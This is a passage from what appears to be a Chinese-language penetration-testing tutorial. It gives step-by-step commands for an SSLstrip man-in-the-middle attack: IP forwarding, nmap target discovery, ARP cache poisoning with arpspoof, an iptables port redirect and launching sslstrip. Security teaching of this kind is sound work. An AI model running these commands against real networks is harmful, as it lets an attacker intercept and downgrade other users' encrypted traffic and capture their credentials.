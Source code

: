 +   使用`echo 1 > /proc/sys/net/ipv4/ip_forward`启用 IP 转发

+   使用`netstat -nr`识别默认网关和子网掩码

+   使用`nmap -Rsn [网络/子网掩码]`使用`nmap`标识网络上的目标

+   使用`arpspoof -i eth0 -t [目标 IP] -r [默认网关]`启动 ARP 缓存中毒

+   这将显示 ARP 缓存中毒的流量。保持此窗口打开

一旦运行，您应该开始看到 ARP 欺骗流量，如下面的屏幕截图所示：

![发动 SSLstrip 攻击](img/Insert6435OT_03_35.jpg)

1.  一旦设置了 ARP 缓存中毒，打开一个新的终端窗口，使用`iptables`设置端口重定向。这使得攻击者能够捕获发送到 TCP 80 上的 HTTP 服务器的流量，并将该流量重定向到 SSLstrip 监听端口。攻击者可以使用任何适用的值。例如，我们将使用以下命令使用`8080`来显示这一点。

```
iptables –t nat –A PREROUTING –p tcp --destination-port 80 -j REDIRECT --to-port 8080

```

所选的重定向目的地也必须用于设置 SSLstrip 的监听端口。

以下屏幕截图显示了上述命令的启动：

![发动 SSLstrip 攻击](img/Insert6435OT_03_36.jpg)

### 注意

禁用此命令中的`PREROUTING`规则，将`-A`替换为`-D`以清除所使用的所有表规则。

+   要刷新，请使用命令`iptables -t nat -F`

+   要验证，请使用命令`iptables -t nat -L`

### 提示

ARP 欺骗有许多配置选项。您可以使用`man tables`命令查看其他选项。

1.  发动 SSLstrip 攻击。在本例中，我们将使用 TCP `8080`作为监听端口。因此，命令将是`sslstrip -l 8080`，如下面的屏幕截图所示：![发动 SSLstrip 攻击](img/Insert6435OT_03_37.jpg)
